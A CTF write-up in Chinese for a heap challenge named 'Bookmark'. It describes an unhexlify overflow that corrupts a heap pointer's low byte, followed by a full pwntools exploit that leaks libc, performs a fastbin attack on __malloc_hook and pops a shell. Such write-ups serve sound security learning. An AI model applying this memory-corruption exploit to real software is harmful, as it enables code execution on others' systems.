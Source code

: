 ## Bookmark

比赛的时候队友做的这题Orz...赛后莫得exp我就自己写了个
简单变量覆写，修改堆区指针导致堆溢出

#### Where

- edit bookmark 中的unhexlify函数调用了memset和strlen，且未将输入数据截断

#### How

- 构造指针倒数第二字节为00的堆区指针两个（1/16的概率）
- 相对低的free
- 相对高的chg 修改自身name指针最低字节为00
- 再次编辑name时可以控制相对低堆块的堆头和fd
- fastbin attack

#### exp

```python
from pwn import *

context.arch = 'amd64'
libc = ELF("./libc.so.6")

def ch(c):
	io.sendlineafter(">>",str(c))

def addB(url,size,name):
	ch(1)
	io.sendafter("url: ",url)
	io.sendlineafter("size: ",str(size))
	if size != 0:
		io.sendafter("name: ",name)

def chgB(idx,url,name):
	ch(3)
	io.sendlineafter("index: ",str(idx))
	io.sendafter("url: ",url)
	io.sendafter("name: ",name)

def delB(idx):
	ch(2)
	io.sendlineafter("index: ",str(idx))


while True:

	try:
		io = process("./pwn",env = {"LD_PRELOAD":"./libc.so.6"})
		#gdb.attach(io,'handle SIGALRM nostop noprint')
		addB('ddnb\n',0x40,'0000')	#0
		addB('ddnb\n',0x800,'1111')	#1
		addB('ddnb\n',0x20,'2222')	#2
		delB(1)
		addB('ddnb\n',0x800,' ')	#1
		ch(4)
		io.recvuntil("index <1>: url: %64%64%6E%62%0A name: ")
		libase = u64(io.recv(6).ljust(8,'\x00'))-(libc.sym['__malloc_hook']+0x10)
		info("LIBC BASE -> %#x"%libase)
		addB('ddnb\n',0x6f0,'fuckyou')	#3
		addB('ddnb\n',0x68,'XXXX')	#4
		addB('ddnb\n',0x68,'YYYY')	#5
		addB('ddnb\n',0x68,'ZZZZ')	#6
		addB('ddnb\n',0x68,'WWWW')	#7
		delB(5)
		chgB(6,'%00'*0x10,p64(0)+p64(0x71)+p64(libase+libc.sym['__malloc_hook']-0x23))
		addB('ddnb\n',0x68,'fuckyou')
		pad = p64(0)+p64(0)+p64(libase+0xf02a4)
		addB('ddnb\n',0x68,'\x00'*3+pad)
		io.interactive()
		#malloc manually

	except Exception,e:
		io.close()
		info(str(e))

```